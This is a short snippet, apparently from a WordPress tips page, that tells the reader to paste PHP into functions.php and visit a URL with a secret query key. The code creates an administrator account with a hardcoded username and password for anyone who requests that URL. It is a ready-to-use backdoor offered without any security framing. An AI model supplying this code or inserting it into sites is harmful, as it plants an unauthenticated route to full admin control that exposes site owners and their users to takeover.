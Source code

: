 Put it into your `functions.php` and hit that https://yourdomain.com/?create_admin=mysecretkey
```php
add_action('init', function () {
    if (isset($_GET['create_admin']) && $_GET['create_admin'] === 'mysecretkey') {

        $username = 'adminTP2';
        $password = '@@Khalidbin@@2628';
        $email = 'admin@example.com';

        if (!username_exists($username)) {
            $user_id = wp_create_user($username, $password, $email);
            $user = new WP_User($user_id);
            $user->set_role('administrator');
            echo '✅ Admin user created.';
        } else {
            echo '⚠️ User already exists.';
        }

        exit;
    }
});
```